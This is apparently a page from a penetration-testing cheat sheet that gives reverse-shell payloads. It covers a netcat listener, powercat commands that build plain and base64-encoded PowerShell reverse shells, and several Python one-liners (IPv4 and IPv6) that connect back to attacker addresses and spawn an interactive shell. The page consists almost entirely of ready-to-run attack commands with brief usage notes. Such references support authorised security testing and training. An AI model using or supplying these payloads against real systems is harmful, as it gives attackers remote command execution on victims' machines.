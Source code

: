 first we launch a netcat listener in attacker machine:

```
nc -nvlp 4444
```

​​we create a stand-alone reverse shell payload by adding the -g option to the previous powercat command and redirecting the output to a file. This will produce a powershell script that attacker can execute on his machine

```
powercat -c 10.11.0.4 -p 4444 -e cmd.exe -g > reverseshell.ps1
./reverseshell.ps1
```

To generate a stand-alone encoded payload, we use the -ge option and once again redirect the output to a file:

```
powercat -c 10.11.0.4 -p 4444 -e cmd.exe -ge > encrypted-reverseshell.ps1
```

The file will contain an encoded string that can be executed using the PowerShell -E (EncodedCommand) option. However, since the -E option was designed as a way to submit complex commands on the command line, the resulting encodedreverseshell.ps1 script can not be executed in the same way as our unencoded payload. Instead, Bob needs to pass the whole encoded string to powershell.exe -E so we copy the whole file and paste it in the console:

```
powershell.exe -E [code]
```

## <mark style="color:red;">Python</mark>

### <mark style="color:orange;">for Linux</mark>

```
export RHOST="10.0.0.1";export RPORT=4242;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.1",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'  
```

#### <mark style="color:green;">IPv6</mark>

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4242,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");'
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

